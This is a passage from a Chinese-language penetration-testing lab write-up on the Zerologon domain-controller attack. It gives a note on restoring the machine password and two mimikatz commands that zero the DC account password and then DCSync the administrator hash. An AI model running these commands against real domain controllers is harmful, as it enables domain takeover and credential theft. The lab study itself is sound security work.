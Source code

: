 

注意，执行`reinstall_original_pw.py`要确保密码已被置空，用空密码算出来的SessionKey加密NTLM Hash，DC用同样的SessionKey解码，才能赋值正确。

![image-20201220161905098](/assets/img/image-20201220161905098.png)

### 2. mimikatz

```
lsadump::zerologon /target:ring2.com /account:ringdc-pc$ /exploit
lsadump::dcsync /authuser:ringdc-pc$ /authpassword:"" /user:administrator /csv
```

最新版mimikatz对流量加密了，看不到各函数调用 [zerologon_mimikatz_encrypt.pcapng](https://github.com/RingLcy/Pentestlab/blob/master/traffic/zerologon_mimikatz_encrypt.pcapng) 

![image-20201220165811271](/assets/img/image-20201220165811271.png)
